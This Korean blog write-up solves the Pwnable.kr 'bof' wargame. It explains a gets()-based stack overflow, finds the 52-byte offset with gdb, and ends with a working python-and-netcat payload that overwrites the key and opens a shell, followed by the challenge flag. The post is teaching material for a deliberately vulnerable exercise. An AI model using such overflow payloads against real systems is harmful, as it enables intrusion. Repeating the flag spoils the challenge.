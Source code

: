 ```yaml
---
layout: post
title: Toddler's Bottle - bof 문제풀이
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Pwnable.kr
---
```


`Pwnable.kr` 문제에서 3번째 문제인 `bof` 문제를 풀어보았다.  

이번 문제는 로컬 문제가 아니라 리모트로 접속 해 풀어야 하는 문제이다.  

<!--more-->

때문에 `bof` 문제에서는 `bof` 실행파일과 `bof.c`라는 소스코드를 다운로드 할 수 있는 링크와 리모트로 접속할 수 있는 정보를 제공해준다.  

* [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
* [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
* nc pwnable.kr 9000

`bof.c`의 소스코드를 확인해 보면 아래와 같다.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`main` 함수에서는 `0xdeadbeef`를 인자로 해 `func` 함수를 호출한다.  

`func` 함수에서는 먼저 `32 byte` 의 char 형 변수인 `overflowme`를 선언하고, 해당 변수에 `gets` 함수를 통해 입력을 받아 저장한다.  

* gets 함수
	* 함수 원형 : gets(char * str)
	* 표준 입력에서 문자열을 가져온다.
	* 이 때, 개행 문자(\n)이나 파일 끝(EOF)를 만나기 전까지 가져오는데, 크기를 따로 검사하지 않기 때문에 `overflow` 가 일어날 수 있다.

이 후, 만약 `func` 함수에 인자로 넘어 온 `key`의 값이 `0xcafebabe`와 같다면 `system` 함수를 통해 `/bin/sh`를 실행시켜 준다.  

`func` 함수에서 `gets` 함수를 통해 문자열을 입력 받는데, 문자열의 길이를 검사하지 않는다.  

때문에 `overflow`를 발생시킬 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_01.PNG)  

위의 그림은 `func` 함수를 호출했을 때의 `stack` 모습니다.  

`func` 함수를 호출하면 스택에는 `func` 함수의 인자인 `key(0xdeadbeef)` 스택에 저장하고, `return address`와 `SFP`를 차례로 스택에 저장한 후, `func` 함수에서 사용 할 지역 변수인 `overflowme`를 위한 공간을 할당한다.  

이 때, `overflowme`는 `32 byte`의 공간을 할당받았지만 `gets` 함수에서 문자열의 길이를 확인하지 않아 아래와 같이 `overflow`가 발생할 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_02.PNG)  

`overflowmw`에 충분한 값을 입력한 후, `func` 함수의 인자인 `key`의 값이 저장된 위치에 `0xcafebabe`를 덮어 쓴다면 `system("/bin/sh")`가 실행되며 쉘을 얻을 수 있다.  

문제를 풀기 위해선 `overflowme`와 `key` 사이의 거리를 알아야 한다.  

이를 알기 위해 `gdb`를 사용했다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_03.PNG)

먼저 `key`의 값을 비교하는 부분인 `0x56555654 <+40>`에 `break point`를 걸고 `32 byte` 만큼을 입력 해 보았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_04.PNG)

실행 후 확인해 본 결과 아래와 같았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_05.PNG)

`0xffffd5cc` 부터 `overflowme`가 시작되며, `0xffffd600` 위치에 `key`의 값인 `0xdeadbeef`가 저장되어 있는 것을 알 수 있다.  

두 변수 간의 거리는 다음과 같다.  

* 0xffffd600 - 0xffffd5cc = 0x34 (= 52)

즉, 두 변수는 `52 byte` 만큼 떨어져 있다.  

따라서 쉘을 얻기 위해서는 `52 byte` 만큼의 값을 입력하고, 이 후 `0xcafebabe`를 입력 해 주면 `overflow`가 발생하며 `func`의 인자인 `key`의 값을 덮어쓸 수 있을 것이다.  

이를 실행해본 결과 다음과 같이 쉘을 얻을 수 있었다.  

파일을 확인해 본 결과 `flag` 파일이 있어, 이를 실행했더니 `flag`를 얻을 수 있었다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_06.PNG)

```
ccoma@vultr:~$ (python -c 'print "a"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

```
FLAG : daddy, I just pwned a buFFer :)
```
